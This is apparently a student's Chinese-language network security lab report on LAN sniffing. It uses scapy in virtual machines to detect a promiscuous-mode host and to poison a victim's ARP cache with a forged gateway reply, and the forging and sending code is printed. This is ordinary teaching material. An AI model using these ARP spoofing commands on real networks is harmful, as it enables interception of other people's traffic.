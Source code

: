 # 实验4 局域网主动监听实验
## 网络拓扑

- 攻击者主机
  - 08:00:27:0e:54:bc
  - 172.16.222.115
  
  ![2](img4/kali_attacker2.png)
  
- 受害者主机
  - 08:00L27:db:5d:f0
  - 172.16.222.145
  
  ![2](img4/debian_victim2.png)
  
- 网关
  - 08:00:27:59:cf:53
  - 172.16.222.1
  
  ![2](img4/debian_gw.png)

## 实验过程
### 实验一：检测局域网中的异常终端

1.首先在攻击者主机上装好python3和scapy。

  ```bash
  #安装python3
  sudo apt update
  sudo apt install python3 python3-pip

  pip3 install scapy[complete]
  ```
  
2.检查受害者主机的混杂模式是否开启。

  ![2](img4/iplink.png)
  
  发现并没有启动（因为没有promisc）.接下来去攻击者主机开启```scapy```，并输入代码。
  
  ![2](img4/scapy_result.png)
  
  回到受害者主机上开启网卡的“混杂模式”，并检查是否正确开启。
  
  ![2](img4/promisc.png)

3.正确开启后，再回到攻击者主机，输入：

  ![2](img4/PKT_change.png)
  
  输出结果并不相同，当受害者主机打开网卡混杂模式后，攻击者的promiscping操作得到了正常的回应，返回结果是受害者主机的MAC地址和IP地址。
  
  最后手动关闭混杂模式。
  
  ![2](img4/shutdown.png)
  
  
###实验二：手工单步“毒化”目标主机的 ARP 缓存
  
1.在攻击者主机的```scapy```的交互式终端输入代码。
  
  ![2](img4/2_arp.png)
  
  然后发送ARP广播请求和相应数据包。
  
  ```bash
  # 发送这个 ARP 广播请求
  recved = srp(arpbroadcast, timeout=2)

  # 网关 MAC 地址如下
  gw_mac = recved[0][0][1].hwsrc

  # 伪造网关的 ARP 响应包
  arpspoofed=ARP(op=2, psrc="172.16.222.1", pdst="172.16.222.145", hwdst="08:00:27:0e:54:bc")

  # 发送上述伪造的 ARP 响应数据包到受害者主机
  send(arpspoofed)
  ```
  
  此时在受害者主机上查看 ARP 缓存会发现网关的 MAC 地址已被「替换」为攻击者主机的 MAC 地址
  
  ![2](img4/2_ipneigh.png)
  
2.恢复受害者主机的ARP缓存记录，需要攻击者主机假装网关给受害者发送：

  ![2](img4/2_re.png)
  
  在受害者主机上，通过ping网关刷新记录。
  
   ![2](img4/2_success.png)
   

###实验三（可选）：使用自动化工具完成 ARP 投毒劫持实验
  
  在攻击者的scapy终端输入以下函数：
  
  ![2](img4/3_kali.png)
  
  结果如图：
  
  ![2](img4/3_debian_vm.png)
  
  可以看到，通过自动化的脚本执行，成功完成对受害者的投毒。


## 实验问题与解决方案

1. scapy中无权限

- 问题：
        在初次登录```scapy```时，当输入

        ```bash
         pkt = promiscping("172.16.222.120")
        ```
  
        出现了```无权限```的报错。
  
        ![2](img4/error_root.png)
  
- 解决方案：
        利用```sudo su```命令切换为```root```账号。
  
2. ARP缓存没有变化。

- 问题：
        在第一次把伪造的 ARP 响应数据包发送给受害者主机时，我使用了文档中所提的```sendp```命令。
    
        ![2](img4/error_send.png)
    
        但是靶机上的ARP缓存没有发生任何变化。
        
        ![2](img4/error_ipneigh.png)
        
- 解决方案：根据资料，将```sendp```改为```send```即可。原因可能是因为ARP协议独立于第二、第三层的特殊性，sendp是第二层的工具，而send是第三层的工具。

  
  
## 参考资料

- [课本——实验](https://c4pr1c3.github.io/cuc-ns/chap0x04/exp.html)
- [2021-ns-public-Tbc-tang
](https://github.com/CUCCS/2021-ns-public-Tbc-tang/blob/chap0x04/0x04.md)
  
- [Scapy模块](https://blog.csdn.net/dyx0910/article/details/124412639)
  
  
  
  
  
  
  
  
  
